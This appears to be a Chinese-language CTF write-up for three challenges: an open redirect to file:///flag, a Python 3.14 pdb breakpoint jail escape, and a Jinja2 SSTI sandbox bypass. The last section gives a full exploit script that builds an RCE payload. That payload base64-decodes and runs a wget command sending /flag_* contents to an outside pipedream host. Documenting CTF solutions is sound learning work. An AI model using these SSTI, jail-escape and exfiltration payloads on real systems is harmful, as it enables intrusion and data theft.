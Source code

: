 # cggc

## Preview Site 🔍

solve: 56/64


可以透過 `/logout` endpoint 來 open redirect
```
@app.route('/logout')
def logout():
    session.pop('username', None)
    next_url = request.args.get('next', url_for('index'))
    return redirect(next_url)
```

透過 open redirect to `file://` 讓系統 preview flag

payload: 
```
http://previewsite/logout?next=file:///flag
```

## Breakjail ⛓️

solve: 20/64

TL;DR;

1. 從給的 Dockerfile 發現這題是跑在 `Python 3.14.0a1` 最新版上
2. 發現最新版的 breakpoint 可以透過 commands arguments 來做到不進 interact 模式來下命令
3. 可以透過 j 來 jump 到 flag 被賦值的地方

首先題目會去讀 flag，存到一個變數後，將其覆蓋掉，之後拿使用者輸入看裡面確認裡面沒有包含 `.` `_` 以及長度沒超過 55 後，就拿去給了一個有自己 patch 過的 breakpoint 的環境下運行， `__builtins__` 是空的。

```python
#!/usr/local/bin/python3
print(open(__file__).read())

flag = open('flag').read()
flag = "Got eaten by the cookie monster QQ"

inp = __import__("unicodedata").normalize("NFKC", input(">>> "))

if any([x in "._." for x in inp]) or inp.__len__() > 55:
    print('bad hacker')
else:
    eval(inp, {"__builtins__": {}}, {
         'breakpoint': __import__('GoodPdb').good_breakpoint})

print(flag)
```

那我 breakpoint patch 的有兩處，目的就是讓 breakpoint 不會進互動模式來繞掉黑名單。


發現在 3.14.0a1 的版本有加上 commands 的 feature [#120255](https://github.com/python/cpython/pull/120255)

[cpython/Lib/pdb.py](https://github.com/python/cpython/blob/ed24702bd0f9925908ce48584c31dfad732208b2/Lib/pdb.py#L362)
```python
def set_trace(self, frame=None, *, commands=None):
    Pdb._last_pdb_instance = self
    if frame is None:
        frame = sys._getframe().f_back

    if commands is not None:
        self.rcLines.extend(commands)

    super().set_trace(frame)
```

```
breakpoint(commands=['n','n','j 1','j 4','c'])
```

之後去 [官方文件](https://docs.python.org/3/library/pdb.html#debugger-commands) 上面找有沒有可用的 debugger commands，可以用 `j` 來 jump 到 flag 被賦值的地方：

```
payload = "breakpoint(commands=['n','n','j 4','n','j 15','c'])"
print(payload)
```

有看到許多非預期解，大致都是用會影響 frame count 的語法，然後透過 `p *open(flag)` 去讀檔拿 flag


## Breakjail Online 🛜 

solve: 13/64

TL;DR;
1. 重用上一題的 commands arguments
2. 發現可以透過 request.query_string 來偷渡一些 payload 進去
3. 在 pdb 環境下 RCE


關鍵程式碼如下，使用者可以控制 q，並且跟前一題類似，有 `.` `_` `|` 的黑名單，所以 Jinja2 SSTI 常見的招都不太能用了，以及字數 88 的上限，之後頭尾加上 `{{` `}}` 後，就會拿去 render_template_string

將 request 的一系列參數都清空的，但觀察一下會發現 `query_string` 仍然是我們可以控制的部分
```python
@app.route('/SsTiMe', methods=['GET'])
def showip():
    # WOW! There has a SSTI in Flask!!!
    q = request.args.get('q', "'7'*7")

    # prevent smuggling bad payloads!
    request.args = {}
    request.headers = {}
    request.cookies = {}
    request.data = {}
    request.query_string = b"#"+request.query_string

    if any([x in "._.|||" for x in q]) or len(q) > 88:
        return "Too long for me :/ my payload less than 73 chars"

    res = render_template_string(f"{{{{{q}}}}}",
                                 # TODO: just for debugging, remove this in production
                                 breakpoint=breakpoint,
                                 str=str
                                 )

    # oops, I just type 'res' not res qq
    return 'res=7777777'

```

這題的預期解是：

```
 http://localhost:10003/SsTiMe?''.__class__.__base__.__subclasses__().__getitem__(123).load_module('os').system('echo'+chr(32)+'d2dldCBodHRwczovL2VveTgzd2ZtN2g2Ym9kYi5tLnBpcGVkcmVhbS5uZXQ/YT1gY2F0IC9mbGFnXypg'+chr(124)+'base64'+chr(32)+'-d'+chr(124)+'bash')&q=breakpoint(commands=%5Bstr(request%5B'query%5Cx5fstring'%5D)%5B3:229%5D%5D) 
```

分爲兩個部分

- 構造 RCE payload，這部分與 q 的長度無關，因此可以盡量塞
    - `?''.__class__.__base__.__subclasses__().__getitem__(123).load_module('os').system('echo'+chr(32)+'d2dldCBodHRwczovL2VveTgzd2ZtN2g2Ym9kYi5tLnBpcGVkcmVhbS5uZXQ/YT1gY2F0IC9mbGFnXypg'+chr(124)+'base64'+chr(32)+'-d'+chr(124)+'bash')` 
- q 的部分則是把 `request.query_string` 拿去 breakpoint commands 下運行，但不能用 `.`，所以用 `request['query_string']`代替，最後透過 str slice 把 RCE payload 的部分切出來
    - `&q=breakpoint(commands=[str(request['query\x5fstring'])[3:229]])`


完整 payload:

```python
import urllib.parse
import requests
import base64

target = "http://10.99.66.7:10003"

cmd = b'wget https://xxx.m.pipedream.net?a=`cat /flag_*`'
cmd = base64.b64encode(cmd).decode()

rce_exploit = f"''.__class__.__base__.__subclasses__().__getitem__(123).load_module('os').system('echo'+chr(32)+'{cmd}'+chr(124)+'base64'+chr(32)+'-d'+chr(124)+'bash')"

rce_exploit_len = len(rce_exploit)
print(rce_exploit_len)

payload = f"breakpoint(commands=[str(request['query\\x5fstring'])[3:229]])"

payload = f"{target}/SsTiMe?{rce_exploit}&q={payload}" 

r = requests.get(payload)

payload_len = len(payload)

print(f"{payload_len=}")
print(f"{payload=}")
print(r.url)
print(r.text)
```


這題由於沒注意到 breakpoint commands 的環境 `__builtins__` 跟 `__import__` 都活得好好的，因此存在直接 import os 來 RCE，搭配把 payload 慢慢存到本地來壓 q 長度的非預期解。


看到 @nella17 提到可以透過 format string 將 bytes 轉 str：
`a=b'c'; f'{c}'`

在 Discord 看到 @dalun 直接用 `request[a:b]` 來進一步縮減 payload 長度，類似：
`breakpoint(commands=[f'{{request}}'[40:-54]])`